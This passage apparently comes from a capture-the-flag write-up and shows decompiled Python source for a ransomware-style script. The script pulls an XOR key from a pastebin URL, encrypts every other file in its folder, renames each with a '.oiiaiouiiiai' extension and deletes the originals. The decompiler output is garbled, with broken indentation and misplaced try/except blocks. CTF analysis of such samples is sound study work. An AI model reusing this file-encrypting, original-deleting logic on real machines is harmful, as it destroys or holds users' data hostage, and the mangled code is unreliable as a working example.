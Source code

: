 ```python
        pass

def xor_encrypt_decrypt(data, key):
    """Encrypt or decrypt data using XOR with the given key."""  # inserted
    key_bytes = key.encode('utf-8')
    key_length = len(key_bytes)
    return bytes([data[i] ^ key_bytes[i % key_length] for i in range(len(data))])

def process_file(file_path, key, encrypt=True):
    """Encrypt or decrypt a file and modify its extension."""  # inserted
    try:
        with open(file_path, 'rb') as file:
            pass  # postinserted
    except Exception as e:
            data = file.read()
                processed_data = xor_encrypt_decrypt(data, key)
                if encrypt:
                    new_file_path = file_path + '.oiiaiouiiiai'
                else:  # inserted
                    new_file_path = file_path.rsplit('.oiiaiouiiiai', 1)[0]
                with open(new_file_path, 'wb') as file:
                    file.write(processed_data)
                        os.remove(file_path)
                        print(f'Processed {file_path} -> {new_file_path}')
            print(f'Failed to process {file_path}: {e}')
if __name__ == '__main__':
    pastebin_url = 'https://pastebin.com/raw/PDXfh5bb'
    key = fetch_key_from_pastebin(pastebin_url)
    if not key:
        print('Failed to retrieve the key.')
        exit(1)
    for file_name in os.listdir():
        if not os.path.isfile(file_name):
            continue
        if file_name == os.path.basename(__file__):
            continue
        if file_name.endswith('.oiiaiouiiiai'):
            process_file(file_name, key, encrypt=False)
        else:  # inserted
            process_file(file_name, key, encrypt=True)
```

![mem](/assets/posts/wgmyctf2024/mem.png)
